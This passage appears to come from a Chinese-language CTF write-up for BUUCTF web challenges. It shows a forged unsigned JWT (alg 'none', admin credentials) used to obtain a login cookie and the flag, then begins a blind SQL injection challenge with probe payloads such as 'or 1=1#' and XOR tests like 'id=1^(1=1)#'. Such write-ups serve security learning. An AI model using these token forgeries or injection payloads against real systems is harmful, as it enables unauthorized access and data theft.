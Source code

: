 ```python
输出:
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJzZWNyZXRpZCI6W10sInVzZXJuYW1lIjoiYWRtaW4iLCJwYXNzd29yZCI6IjExMSIsImlhdCI6MTY2NjkzOTEzMX0.
```

然后使用得到的新`JWT`登录,显示登录成功并返回了新的`cookie`值

![image-20221028151552718](../images/buuctf-web3/image-20221028151552718.png)

将新`cookie`用于请求`flag`:

![image-20221028151712357](../images/buuctf-web3/image-20221028151712357.png)



<br>

***

<br>

# [盲注,无列名注入]Ezsqli

先提交点数据试试:

```
id=0   Error Occured When Fetch Result.
id=1   Nu1L
id=2   V&N
id=3   Error Occured When Fetch Result.
id=a   bool(false)
id=1'  bool(false)
id=2 or 1=1# SQL Injection Checked. 存在过滤,猜测是空格或者or
id=1^(1=1)#  Error Occured When Fetch Result.   这里符合id=0时的结果
id=1^(1=2)#  Nu1L  这里符合id=1时的结果
存在异或注入点
```

